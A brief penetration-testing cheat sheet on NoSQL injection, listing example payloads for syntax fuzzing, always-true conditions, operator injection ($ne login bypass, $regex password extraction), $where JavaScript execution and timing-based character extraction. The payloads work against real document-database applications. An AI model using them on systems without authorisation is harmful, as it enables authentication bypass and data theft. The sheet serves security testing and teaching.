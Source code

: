 # NoSQL injection

#### Syntax Injection Test Cases:

1. **Testing Query Syntax**:
   * Submit fuzz strings and special characters to test query syntax.
   * Example Payload: `'"{;$Foo}$Foo \xYZ`
2. **Determining Processed Characters**:
   * Inject individual characters to identify syntax interpretation.
   * Example Payload: `'`
3. **Confirming Conditional Behavior**:
   * Test false and true conditions to observe differences in application behavior.
   * Example Payloads:
     * False Condition: `' && 0 && 'x`
     * True Condition: `' && 1 && 'x`
4. **Overriding Conditions**:
   * Inject conditions that always evaluate to true to exploit vulnerabilities.
   * Example Payload: `'%27%7c%7c%31%7c%7c%27`

#### Operator Injection Test Cases:

1. **Submitting Query Operators**:
   * Insert query operators via JSON messages or URL parameters.
   *   Example Payload:&#x20;

       `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
2. **Extracting Data Using Operators**:
   * Utilize query operators to manipulate queries and extract data.
   *   Example Payload:&#x20;

       `{"username":"admin","password":{"$regex":"^.*"}}`
3. **Testing Field Names**:
   * Identify valid fields in the collection to extract data.
   * Example Payloads:
     * Existing Field: `admin' && this.username!='`
     * Non-existent Field: `admin' && this.foo!='`
4. **Injecting Operators for JavaScript Execution**:
   * Use injected operators to execute JavaScript and extract data.
   * Example Payload: `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
5. **Timing-Based Injection**:
   * Trigger time delays to detect and exploit vulnerabilities.
   *   Example Payload:&#x20;

       `admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'`

#### General Guidelines:

* **Adaptation**: Customize payloads based on specific application contexts.
* **Encoding**: Encode payloads as necessary, particularly for URL-based injections.
* **Validation**: Verify responses for changes/error messages indicating successful exploitation.

